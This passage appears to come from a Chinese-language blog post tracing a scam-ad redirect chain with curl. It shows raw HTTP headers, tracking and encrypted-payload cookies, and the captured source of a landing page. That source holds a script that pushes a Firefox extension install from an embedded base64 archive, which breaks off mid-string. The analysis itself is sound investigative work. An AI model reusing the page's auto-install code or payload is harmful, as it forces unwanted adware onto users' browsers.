< Set-Cookie: path=redirect; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: version=645649; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tags[3578][expand_enable]=-1; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tags[3578][alert_enable]=0; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tags[3578][audio_enable]=0; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tags[3578][pop_enable]=0; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tags[645649][expand_enable]=-1; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tags[645649][alert_enable]=0; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tags[645649][audio_enable]=0; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tags[645649][pop_enable]=0; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: content=645649; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: token=d206d59098c1efa7a7c18ab1c6060181; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: rpm=25; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: vid=444390; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: log_627219294=1; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: token=d206d59098c1efa7a7c18ab1c6060181; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: rpm=25; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: payload=53d0822880f2f033b7c8b03d5367c29398e09b0abeb88e13a1b80a16d58319c42a6bfea5346e86fa0150c1adaf6ac8787f39fb1b7db0f5700269c0c8b8553335e4526ed7b2e9ec273289f7a0cd92df0b48372ca9f687fb67703bed47633016673df76f5d83ca8e4a29d7e989a600d37133c4db3a65a2fd66f4416ff6285368b59523a3494a4773ab43970ee5b3d3d61cc4d1c82abcdea29a85fc28aceed0d08a42422d4b2df8796450cb26b7a41b49e63cc6032b64c240405cdb7fd5a932a0ea53555507972063b7a0fd87c23278d276bf1c5e2025ba26b6b82d61b9b39a8a70419b589cc723f66030041be8c80aa0b6ed657aef68ef4261aa9d3df3ad1cfe79eccf2f882290dfbbc61b9822e32135122588107018122ac8cea90e8934970fd7c1e60df1f00c4c5b46d5e054605626c1988bb98f64e22b7c769ffa28cfe57d8784f2503c877a28613e563e52a563a09f3faca8955c3798ca613add09359810d3a1a3986d7b51783184d0201e98183618fb4ad1399d4f320570b627678de50e6384ec721a4c8dfef7c31ef128fa67958be65f9612a57475c2efd947557ee1426037b6e560d5150b594eb5b8f369ea3848a51a1754a335bfe923009862228a4ab7f9d9078248034a4a4c73ce9abb77e4461c4369696d4582a940ab63cd625c5872cc5b2fe04d4925c702cee81b0c143bacd1cbfff8ba38b2cf5c9efa2d7b11dbb101013c607e3505abe2102864bf1d236811d8e16fcbe4cb03787a414e71f7dfa3d816540e606ae0d67ee12427a352a623e9a0ceb9ea55e827067572e0be106bf70187af027ce1459de4fb09dab9df1ff4cc8eca4cbd6a38841ed0caeb27bde44cd36233d0fed372eb5d38caad5bb8e34cb3196df35df745ed0634595692fbc94c4c1655f96fb750997b18f0e96cab8a7d60d4e3d6e5f4d972d69cfd77fbc6e53fc5ca74117d0466e77bbd4f378344f2b488beab41679d6d6d76ce6fb8b64f8c9d339e5761aec98daf76c9a222f83bf0e8e2b7a3b1e9c181559c99ddb24e0dac401e020a1f9ae96321b485021244018198742ef483903dc8a67e07421511359a0779d831972a841aca07fc39314c18f169ef043533844ae5f2874e73a3da4ab7707743579b3260d887d1a0b55106bffaee7624c5cb0ce0e2f7911be8a5a053fdf3d6966aca0e2c462244f401a95630e6d0e351e8e6d16b758691cfb2adc538cc394e; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: payloadIV=7ef9d6fec22596ba73d6ced5f848f6a5; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: init_ev=0; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: id=XNSX.-r7988-t68; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: SITE_ID=627219294; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: sov=627219294; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tov=645649; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: mov=downloads.mini; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: redid=7988; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: campaign_id=42; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: gsid=68; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: pid=1597; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: ref=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: impid=5057a1bc-7d7f-11e7-b7cd-fa245441bcee; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< X-Sov: 627219294
< X-Rot: 645649
< Set-Cookie: tags[3578][iframe_enable]=0; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Expires: Mon, 01 Jan 2001 00:00:00 GMT
< Cache-Control: no-cache
< Pragma: no-cache
< Set-Cookie: shid=esgmgmssigwqe%7C403026589; expires=Thu, 10-Aug-2017 04:42:52 GMT; Max-Age=3000; path=/; domain=.gdn
<<html><head><title></title><noscript><meta http-equiv='refresh' content='0;url=NEX981privacyassistffUS.html'></noscript>
        <script>
        "NEX981privacyassistffUS.html" && (window.location = "NEX981privacyassistffUS.html");
        </script><!-- NEX981privacyassistffUS.html -->
        <!--  -->
        <!--  -->
        <!--  -->
        <!--  -->
        <!-- COI464macjuuuliiytdjuuuuliiiUS.html -->
        <!--  -->
        <!--  -->
        <!--  -->
        <!--  -->
        <!--  -->
        <!--  -->
        <!--  -->
        <!--  -->
        <!--  -->
        <!--  -->
        <!--  -->

<meta name="robots" content="noindex, nofollow" />
</head><body></body></html>
<a href="//alldownloads.hapc.gdn/admin_config" style="display:none"></a><!-- Mini 208 :: 1502337172 -->
```

现在，我们再次看到有人试图设置一个大的有效负载，这次是通过 cookie，并刷新到一个“隐私辅助”页面。嗯，我想我们越来越接近实际有效载荷了…

奇怪的是，“管理配置”链接似乎是空的；也许有一个特殊的代码需要输入，或者只有某些 IP 可以访问它。

```
$ curl -v -v "[http://NrRzz.alldownloads.hapc.gdn/NEX981privacyassistffUS.html](http://NrRzz.alldownloads.hapc.gdn/NEX981privacyassistffUS.html)"
*   Trying 45.76.0.183...
* TCP_NODELAY set
* Connected to NrRzz.alldownloads.hapc.gdn (45.76.0.183) port 80 (#0)
> GET /NEX981privacyassistffUS.html HTTP/1.1
> Host: NrRzz.alldownloads.hapc.gdn
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 302 Found
< Date: Thu, 10 Aug 2017 03:55:54 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< P3P: CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
< Set-Cookie: ci_session=JcV9LkTbGbswOHgxP03ZelrFJnwvITl6%2FrLkzs1HDyYuBZuSLQ9YXPdqC7E0JTQ7DL2vomDL8fAlXVxSZASofNr2EsUeJYCHRelBxeXCdtnml5wx7ClERMAdT0cm5nh0ROWszDU%2FYCRPue5X1cmD6Naehpe7YinmygyLwuXrsuM0iSVexgO2Jt%2BurtVwbTF2Fj5VTxKKWd5IiaGuwQFeuEmRbVXFSC12kPpmS4B8lCi2t5YxQQ4gdMEtXHycGiCod%2FEGV%2B8PFDvrMJap%2FF0SCjUhMxnKZHZPk1eaQsnYlJPZ6TfK2ta1PbaFVzK1yASUm%2FY3sOiFXJEphgXyeJLeIg%3D%3D; expires=Fri, 11-Aug-2017 03:55:53 GMT; Max-Age=86400; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< X-Source: Mini
< Set-Cookie: id=noid; expires=Fri, 11-Aug-2017 03:57:33 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: SITE_ID=93226501; expires=Fri, 11-Aug-2017 03:57:33 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: sov=93226501; expires=Fri, 11-Aug-2017 03:57:33 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tov=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: mov=downloads.mini; expires=Fri, 11-Aug-2017 03:57:33 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: redid=0; expires=Fri, 11-Aug-2017 03:57:33 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: campaign_id=0; expires=Fri, 11-Aug-2017 03:57:33 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: gsid=0; expires=Fri, 11-Aug-2017 03:57:33 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: pid=0; expires=Fri, 11-Aug-2017 03:57:33 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: ref=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: impid=mini4157-7324-4039-8980-883b843d979a; expires=Fri, 11-Aug-2017 03:57:33 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: URI=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< X-Rot: 
< X-Sov: 93226501
< X-Jump: NEX981privacyassistffUS.html
< X-Jump-Data: a:13:{s:2:"id";s:5:"58767";s:3:"geo";s:2:"US";s:4:"name";s:27:"NextAd Privacy Assist FF US";s:6:"weight";s:3:"100";s:4:"slug";s:28:"NEX981privacyassistffUS.html";s:11:"landingpage";s:77:"[http://n3xt.io/path/lp.php?trvid=10076&trvx=39ae0019&cid={S2S}&aff_id={REDID](http://n3xt.io/path/lp.php?trvid=10076&trvx=39ae0019&cid={S2S}&aff_id={REDID)}";s:5:"subid";s:4:"MINI";s:8:"redirect";s:2:"JS";s:4:"type";s:17:"Privacy Assist FF";s:8:"offer_id";s:0:"";s:7:"network";s:3:"981";s:7:"account";s:4:"1287";s:3:"pos";s:3:"100";}
< X-Jump-Redirect: [http://n3xt.io/path/lp.php?trvid=10076&trvx=39ae0019&cid={S2S}&aff_id={REDID](http://n3xt.io/path/lp.php?trvid=10076&trvx=39ae0019&cid={S2S}&aff_id={REDID)}
< X-Jump-Vars: a:2:{i:0;a:2:{i:0;s:5:"{S2S}";i:1;s:3:"S2S";}i:1;a:2:{i:0;s:7:"{REDID}";i:1;s:5:"REDID";}}
< Set-Cookie: cl=f2cd5f63-2085-478a-a955-5a7bcad3a87a; expires=Fri, 11-Aug-2017 03:57:33 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< X-Jump-To: [http://n3xt.io/path/lp.php?trvid=10076&trvx=39ae0019&cid=f2cd5f63-2085-478a-a955-5a7bcad3a87a&aff_id=0](http://n3xt.io/path/lp.php?trvid=10076&trvx=39ae0019&cid=f2cd5f63-2085-478a-a955-5a7bcad3a87a&aff_id=0)
< Expires: Mon, 01 Jan 2001 00:00:00 GMT
< Cache-Control: no-cache
< Pragma: no-cache
< Location: [http://n3xt.io/path/lp.php?trvid=10076&trvx=39ae0019&cid=f2cd5f63-2085-478a-a955-5a7bcad3a87a&aff_id=0](http://n3xt.io/path/lp.php?trvid=10076&trvx=39ae0019&cid=f2cd5f63-2085-478a-a955-5a7bcad3a87a&aff_id=0)
```

嘿，我们再一次使用 302 重定向到 n3xt.io 由 GoDaddy 注册，由 Amazon Route53 注册 DNS，再次双宿 IP 到 AWS。似乎很多这些骗子喜欢在亚马逊基础设施上托管，在第二层 VPS 主机之间放置间接主机。

```
$ host n3xt.io
n3xt.io has address 54.183.45.103
n3xt.io has address 54.183.112.92
```

让我们看看这里有什么。

```
$ curl -v -v "[http://n3xt.io/path/lp.php?trvid=10076&trvx=39ae0019&cid=f2cd5f63-2085-478a-a955-5a7bcad3a87a&aff_id=0](http://n3xt.io/path/lp.php?trvid=10076&trvx=39ae0019&cid=f2cd5f63-2085-478a-a955-5a7bcad3a87a&aff_id=0)"
*   Trying 54.183.112.92...
* TCP_NODELAY set
* Connected to n3xt.io (54.183.112.92) port 80 (#0)
> GET /path/lp.php?trvid=10076&trvx=39ae0019&cid=f2cd5f63-2085-478a-a955-5a7bcad3a87a&aff_id=0 HTTP/1.1
> Host: n3xt.io
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 302 Moved Temporarily
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Cache-control: no-cache="set-cookie"
< Content-Type: text/html
< Date: Thu, 10 Aug 2017 03:56:13 GMT
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< location: [http://cw.privacyassistant.net/ext/recommended?cid=8gb7mi6np8wd&trs=YTZ&cont=USA&c=10076&z=0](http://cw.privacyassistant.net/ext/recommended?cid=8gb7mi6np8wd&trs=YTZ&cont=USA&c=10076&z=0)
< Pragma: no-cache
< Server: Thrive-01766a2d11972f080-us-west-1
< Set-Cookie: THRIVE_SESS=cbkoinkmp2u0bc92b5k7rf6711; expires=Fri, 11-Aug-2017 03:56:13 GMT; Max-Age=86400; path=/; domain=.n3xt.io
< Set-Cookie: ClickId=8gb7mi6np8wd; expires=Sat, 09-Sep-2017 03:56:13 GMT; Max-Age=2592000; path=/; domain=.n3xt.io
< Set-Cookie: OfferPage=http%3A%2F%2Fcw.privacyassistant.net%2Fext%2Frecommended%3Fcid%3D8gb7mi6np8wd%26trs%3DYTZ%26cont%3DUSA%26c%3D10076%26z%3D0; expires=Sat, 09-Sep-2017 03:56:13 GMT; Max-Age=2592000; path=/; domain=.n3xt.io
< Set-Cookie: OfferID=1046; expires=Sat, 09-Sep-2017 03:56:13 GMT; Max-Age=2592000; path=/; domain=.n3xt.io
< Set-Cookie: clickData=eJyNU9tq20AQ%2FZWwD6aFWFfrYoMJaUJpIO1D3VBaBGW8O7KXyLtid6XEDf73zq7cEOhLEVhz88yZc0YvzA7bO8FWrN5tq4MsVV8%2FCXbJOBx6H0%2BTpCovmdWD4egDOXkdKCHVzrvJq3cLDqm%2BSLI8r%2Bi5ZLpt0UxNFuXZfTAdDds716%2BauIn5U9QbOQI%2FgrXSOlAuUuiaGJ%2FpxyDXhwMqgeKKS7F%2Bi3HmjF3%2F%2BPZzxrVy64fN9YyvA9jZ73XCztP%2BxdTDUQ8u4OaDMaj4kfA8bG79zlqNbNVCZ3Fypr9TqTOg7J2wVEp1BscQHaWVThu2emGyp1S2iIooreooLSoqgx0qt3GU96O6Jq6iYhF5bMTYbqD01K7THLqzjSN09zgikVTR2GPv4wLto9O9X%2BqMYERjpVaTszX6yaIfc0NjQoAUmXIHLXwvbwocJccvcDiPktZjvtEHDtZd3MCWMIS1FXI3NQ%2FBJr7d3Dfxd%2FlR%2Brx0nrANqIvPxI4OdOz%2Blney1UZJCI0E5oHa61BDagSM5AxGktHEPbh9E3d91O%2F7K2dGUnhSkOzndb4ETJJ0OfPKtxkXRVvm8yypi%2FmiqmEOy6KYF1BtOYgc6gpm0La%2FqDZhJ9pOOTQKOi8O13ZSnI4qBMPB%2F09LT3VCtaGldnsMYgvcDjtvmKHDDwbh0cvyLluk2Sqba%2Fv%2BXZmVi8kMuwtJl%2By%2BakLBlFbou%2B0DKKbyZxdJT6O13evxGew7yeljCLfl0SZpVZaQiTRdVlmb1Mlb4gc7f0Lr5ik7nV7P8hPYPeWKbZHwKhUpsSkWecXzRLT1EosSW16IMsOc3mnNTn8A09c7MQ%3D%3D; expires=Sat, 09-Sep-2017 03:56:13 GMT; Max-Age=2592000; path=/
< Set-Cookie: AWSELB=E5EB9F1D14A57CA891D30EE50AEEC823B3A902F4EA724622E026F5AFE13FCE21AC3365562D7C10FE4E7B3025153BC728BC0A5EA2695BE5385EFBD54641946EEC51E459C4BB;PATH=/
< Content-Length: 0
< Connection: keep-alive
```

好了，现在我们让我们的最终客户重定向到“客户”网站，PrivacyAssistant.net，它“为您的搜索结果提供额外的信息”。明白了；我们将有一个扩展，在我们的搜索结果中注入新的广告。因此，赚钱的机会来了，Firefox 尝试自动安装他们的插件:

```
$ curl -v -v "[http://cw.privacyassistant.net/ext/recommended?cid=8gb7mi6np8wd&trs=YTZ&cont=USA&c=10076&z=0](http://cw.privacyassistant.net/ext/recommended?cid=8gb7mi6np8wd&trs=YTZ&cont=USA&c=10076&z=0)"
*   Trying 23.23.203.84...
* TCP_NODELAY set
* Connected to cw.privacyassistant.net (23.23.203.84) port 80 (#0)
> GET /ext/recommended?cid=8gb7mi6np8wd&trs=YTZ&cont=USA&c=10076&z=0 HTTP/1.1
> Host: cw.privacyassistant.net
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Content-Type: text/html; charset=UTF-8
< Date: Thu, 10 Aug 2017 03:56:29 GMT
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Pragma: no-cache
< Server: Apache
< Set-Cookie: PHPSESSID=bgoo24o8o6ufg63a7775494aa2; path=/; domain=.privacyassistant.net
< Set-Cookie: cont=USA; expires=Sat, 09-Sep-2017 03:56:29 GMT; Max-Age=2592000; path=/; domain=.privacyassistant.net
< Set-Cookie: cid=8gb7mi6np8wd; expires=Sat, 09-Sep-2017 03:56:29 GMT; Max-Age=2592000; path=/; domain=.privacyassistant.net
< Set-Cookie: off_id=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/; domain=.privacyassistant.net
< Set-Cookie: br=chrome; expires=Sat, 09-Sep-2017 03:56:29 GMT; Max-Age=2592000; path=/; domain=.privacyassistant.net
< Content-Length: 25621
< Connection: keep-alive
< 
<!DOCTYPE html>
<html>
<head>
<title>Improve Browser Security</title>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<link rel="stylesheet" type="text/css" href="style5.css">
<link rel="chrome-webstore-item" href="[https://chrome.google.com/webstore/detail/oofhoenjnigkpkkdnplfcbjapgcolpdm](https://chrome.google.com/webstore/detail/oofhoenjnigkpkkdnplfcbjapgcolpdm)" />
<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no" />
<script src="jquery.min.js"></script>
<script>
function repEvent(ec="0",ea="0",el="0"){
  $.post("/ext/cevent.php?"+new Date().getTime(),{'ec':ec,'ea':ea,'el':el});
}
function repView(pg="dl"){
  $.get("/ext/cview.php?pg="+pg+"&" + new Date().getTime());
}var ffLoop = { active: true, attempts: 0, maxAttempts: 1000 };
 function dl(){
  dll = getCookie('dl');
  if(location.hostname.split('.')[0] == 'd' && dll != ''){
      $('.app').show();
      $('#dlmsg textarea').val(dll);
      $('#dlmsg').fadeIn();
      $("#dlmsg").find('textarea').select();
      return true;
  }
  return false;
}
function getCookie(c_name) {
    var i, x, y, ARRcookies = document.cookie.split(";");
    for (i = 0; i < ARRcookies.length; i++) {
        x = ARRcookies[i].substr(0, ARRcookies[i].indexOf("="));
        y = ARRcookies[i].substr(ARRcookies[i].indexOf("=") + 1);
        x = x.replace(/^\s+|\s+$/g, "");
        if (x == c_name) {
            return unescape(y);
        }
    }
}
function base64toBlob(base64Data, contentType) {
    var byteCharacters = atob(base64Data);
    var byteNumbers = new Array(byteCharacters.length);
    for (var i = 0; i < byteCharacters.length; i++) {
        byteNumbers[i] = byteCharacters.charCodeAt(i);
    }
    var byteArray = new Uint8Array(byteNumbers);
    return new Blob([byteArray], { type: contentType });
}
function isFirefoxInstalled(){
   var img = document.createElement('img');img.addEventListener("load", function (e) {
              window.location.href = '[https://www.searchassist.net/'](https://www.searchassist.net/');
            });img.setAttribute("src", "chrome://searchassistincognito/content/skin/images/ping.png");
}
function checkFirefoxInstall() {
        setTimeout(function () {
            var img = document.createElement('img');img.addEventListener("load", function (e) {
                ffLoop.active = false;
                $.get('hoconv.php?cont=USA&br=chrome&cid=8gb7mi6np8wd&off_id=');
                setTimeout(function(){
                   if(location.hostname.split('.')[0] != 'd'){
                      window.location.href = '/';
                   }
                   else {
                    $('#element_to_pop_up').fadeOut();
                    dl();
                  }
                }, 2000);
            });img.addEventListener("error", function (e) {
                ffLoop.attempts++;
                if (ffLoop.attempts != ffLoop.maxAttempts)
                    checkFirefoxInstall();
              });img.setAttribute("src", "chrome://searchassistincognito/content/skin/images/ping.png");}, 200);
    }
        function startInstall() {
            isClick = true;
            isClickNow = true;//showHelper();checkFirefoxInstall();
            var a = document.createElement('a');
              a.style = "display: none";
              var url = window.URL.createObjectURL(base64toBlob("UEsDBBQAAAAIAJxq9UqVlyAx9AwAAE0QAAAUAAAATUVUQS1JTkYvbW96aWxsYS5yc2HdV3k4lWvXt2fDZpNhm22E2DbPYyZFETIPGQpJjinsLXMybrUzRUiSecxQypBMOyVTHdNBpjJGhAwRSvio95zOd74/vr/e672u97/n96zfWve613Wv37oWQGY+jaSToOhQNhkhKGg2mVkFIDMrQCEQkAGgQyLwTDAoN4IGYPhFgmST0XUAGfEUIMOysmFQCBSKhNg6GvMnAox/sSAM+07hLT+CwMzhSFaouRnIC3AfAHpWVgNSoKu7uz1Og+TlSfKy93ElEUFpgHBgZWAV/dN6wsAIZ+xF+s3X4YCAM3N1JroSnXFmjl5+rg6OIAhIHzjAWI94/kUieP8kERzspex/+41E9Jby+BlNiuTlDMoBMn+lSAfhEPH+GcqbQPL0xv/k//RX/9PLgeQB8GMZQUVAUQYEZWVkQPlzWEYZmX0I/AsC3iArwPIzd/pf+f7vu3MAbAcAxcpoQPIl+ti7EnEWro7+IGa/aD9qgjzx4/g/vWhZoRonQC4A++OKbMzq3v7ejvZeDi723t6u3j4yABkq9Pd6QxA0MDIUQ7P/nx5KhkJossH+Hlp7qJ7NnbyZMMYGMOldfrK1/2e1DRZo9TnmwxXCU2VHWUTW62SZjYxYkIXs9GDUTPRX4268BZYN6DO9KfpquTH2O/ZO6UhMzER0IgmM7x2cupuAaO0ajWepXTdqqXHCXolTbUvN1fk6nsvUmDjstiQ0TRptKn3nPKI7biqOMrE05eYb/7BJEGJYPFFsF+UsPh+OnqGVQaSzJeWNiI8mlVBq1kxwN5/cDVcZnsJsYbvEck+JnIuNI+1YoJZDmzuHxZjopOI1sl4hl4RfJoa9bWMODDGN7wqkbdvsyrIJ4nSNHN/tyt89oRJ8Kan104vFJAOnjcErABQ0bM94OwjRVyzRGwCqVYJZXthIYYLjBzT8P9hY3e2uQYTBCf6UvivPy2nB7s2YP3jqiIMTx7nq2+OqftfCa3x9HKDUKrZXoVjGyl/rjzw1eK7wyLNLmuhB426ime+QYl3utV4K5cuitibzZD1HrV02IdYuSDp1uIkk1h8IdhP6K/m6zhhNTdR89HrVfb+W+9Mqe+1ulx45ndW9QitEx/dT0fBLwRdpYa+qrQgRtK4uOye+BPD9FjNV2J6mFIAd7XG3bzsmy3K6xsVaIWqWvq8nX/vhxGsBlwrHbd7B+cyRV6tu82G4Mp/K6c+m6G6MQWHB3X4GydGqICebITMnYoJM/Y5rVagwFAahgfyjI2EHD6OaOyvcc5J+6uEZ7bUX3pO0THxKJwYe63Wlz1qwZ6RIEOI5TpOYwqPPHbKbvPAm6dC9XBrcLnWDpAKLttbYrpc8/U7ohT/m90R7ur679gaZhSe3Woof3OhUBd9LSkbDFxW35K9JwMnCqcLnBbQ5b1v3djZHi/svT78w7s1phDD4XB1GfRuTlxlmVRnStYotVeKKzyNyJuWcy0fr79ZkaadEzawuZ4fnfXTNn1doUmUuP9WsabgVXlKipFzfYeTyvHyD/wsGq+VbC2czqHSwzqjtv8Ewxr6c6maDvwZRAw0ZLFzv9aNC5SrftC4Qxddv43sKBmuKpdihUTzwkc+U2rwz19Gi0dOa4w5NxUO+ls42abIcrlVmX2afSmQ9wNjO7ToiIqggXVjw2bZGu8Ccma1qdq6pJbeXUyITsMvuH2KXcBKtyiWciBDxAJFrUZjgbKn6+pQgxvx4tT1ovlKiUmcbg/L6DHrbTdOGWjf89ejzQ9ksRVWGBj4L47n6VLfx6mDiMvKsEBQIOYF+Y9jfkjG6mHuPMf2Kdr+G1FsoZ00dk/KRilF+VJfWUtdGAVuBKgrB+Poj6ffbnefta9gtp6OuhKSlRzB2OvlurLrnRvq12B6RQ7znUbt4tU7yqv55onDyZrAS2U3nfspdLFOsIZ4vEPbSBweg+qe8t3F6SzczLToBMnIbIMPf/5RuGDMN9O+vBL2v28H/VtkWAPh+yjaHF4nksy/UhL/Jt70H6YfcygOyoKKMrLyMnMyB3B5AuX/B/5qx8v8peFOH7HA176FJemHqPS6HgjmzG9zet8VX7yy+dM7Q+R7S0cDRTr3ltClXzDc4Xlv14JJByQVDqv9smsGjJnzngFAM+m38xsnM2e/291RToAwURVHdpgoa1W2EH1juKI7fLWojCW/D37EOoZ/nnVkT5L+Isc0b8L8Zlx2os8rXyqVnnsHXlvas2I306KMqLqA97nPUs1xIWYjkozkzfeckooNFsEulJnXOGSaX5dsvkyhdx5Zy9bwOl/vuR5JpwZooLkZKPBJbKvbH+sb7seubze9OO44+F1en7vbqjJiESHq2L8nTdOCVEpy0cIdhx4swFrBE5+XHwoFVkLOoa4E7RlZ+gj1hM+HSI3/UvE616nQMr3MdGdrhD23iHeA0jmQ1F7j2te5Yn89s5nyDneIKIYHtKi1ePlActe7FKlzwUKFqI9Jr6A3Fs8cxSTfNyU5yITiB6apQ99jcA+2lO+joMZVv3cHJEUedSh+drXjyhapzR/qbnvFlPUX/l0cvBI05cLcdj8XdlSKFXba2k7uv6mmhbVPygoFWK3VggBF3MqrVAFauK5r0NDvW76NZy7CviA+mb7o9VHUyJtr06dNhanFNc7uKLys9xDAiYScP7+dtRRUp7sW08nb0Bt19b4eTeHhHIXqg8DvZ9nPjqRxm2cC1T3tyg3DNTdyIEC2YIHBqoUWLAIUhzRXzyBBlgAyRB9D7j5KPFY4AYBDIHsB0gDD7X3D4fhsjAY4DLHKA0QA9khaPhCAQKBjsR6vxMcE54Gw+QXZsBVMFie8rPZBF1/kUNLECkUB40YFdGB6eDYRnhLFVNsxb+ZROEgMkKkrThfmLHCRTnuaEh+eH/oclgQyBALJIugsUHQhl6yQEDhflOOzi4+OpIi39f7tR2sFe2sHLXcrT0eMfwvZj/D0cbAweevsJlAsIaY9vODNx553eEavRZkHzsMccmFt7lxy2egTcFIVNpwZgWmr2acd4FwPjP6gXLUH3sB1q1zQqe2Xu86zxyqucDoBplpUplZr2lQ8SWibY1UmHNQU91CZnp5iVmNS4Xp+swL6cl8yFcz4TusHybfi1Kj7V6MqTpw/hNx913PpM+e4eRJXg4/9qZtjkx6PUzwwjBYgaZhrz3R98b7h6Nkv6UonfRP